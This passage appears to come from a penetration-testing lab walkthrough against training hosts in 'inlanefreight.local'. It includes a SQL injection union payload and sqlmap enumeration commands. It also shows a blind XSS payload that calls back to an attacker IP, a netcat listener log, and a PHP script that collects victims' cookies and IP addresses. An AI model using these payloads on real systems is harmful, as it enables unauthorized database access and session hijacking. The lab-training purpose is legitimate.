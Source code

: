
                ' union select null, database(), user(), @@version -- //

        We can also use sqlmap to exploit this also. First, capture the POST request using Burp, save it to a file, and mark the searchitem parameter with a * so sqlmap knows where to inject.

        $ sqlmap -r sqli.txt --dbms=mysql 

        Next, we can enumerate the available databases and see that the status database is particularly interesting:

        $ sqlmap -r sqli.txt --dbms=mysql --dbs

        Focusing on the status database, we find that it has just two tables:

        $ sqlmap -r sqli.txt --dbms=mysql -D status --tables



        -support.inlanefreight.local


        Moving on, we browse the http://support.inlanefreight.local site and see that it is an IT support portal. Support ticketing portals may allow us to engage with a live user and can sometimes lead to a client-side attack where we can hijack a user's session via a Cross-Site Scripting (XSS) vulnerability. Browsing around the application, we find the /ticket.php page where we can raise a support ticket.Fill out all details for a ticket and include the following in the Message field:

         "><script src=http://10.10.14.15:9000/TESTING_THIS</script>

         start a Netcat listener on port 9000 (or whatever port you desire). Click the Send button and check your listener for a callback to confirm the vulnerability.

         $ nc -lvnp 9000

        listening on [any] 9000 ...
        connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
        GET /TESTING_THIS%3C/script HTTP/1.1
        Host: 10.10.14.15:9000
        Connection: keep-alive
        User-Agent: HTBXSS/1.0
        Accept: */*
        Referer: http://127.0.0.1/
        Accept-Encoding: gzip, deflate
        Accept-Language: en-US


        This is an example of a Blind Cross-Site Scripting (XSS) attack

        Now we need to figure out how we can steal an admin's cookie so we can log in and see what type of access we can get. We can do this by creating the following two files:

        1 )  index.php

        <?php
        if (isset($_GET['c'])) {
        $list = explode(";", $_GET['c']);
        foreach ($list as $key => $value) {
                $cookie = urldecode($value);
                $file = fopen("cookies.txt", "a+");
                fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
                fclose($file);
        }
        }
        ?>
